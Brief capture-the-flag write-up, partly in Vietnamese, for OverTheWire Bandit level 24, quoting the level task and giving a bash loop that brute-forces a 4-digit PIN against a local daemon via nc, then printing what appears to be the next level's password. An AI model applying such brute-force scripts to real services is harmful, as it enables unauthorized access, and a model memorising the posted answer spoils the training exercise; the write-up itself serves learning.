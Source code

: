 A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time

sẽ phải brute-force mật khẩu từ 0000 đến 9999 vào nc 30002 
viết bash
#!/bin/bash

for i in {0000..9999}
do
        echo <oldpass> $i >> possibilities.txt
done

cat possibilities.txt | nc localhost 30002 > result.txt

rồi cat trong file result tìm pass

p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d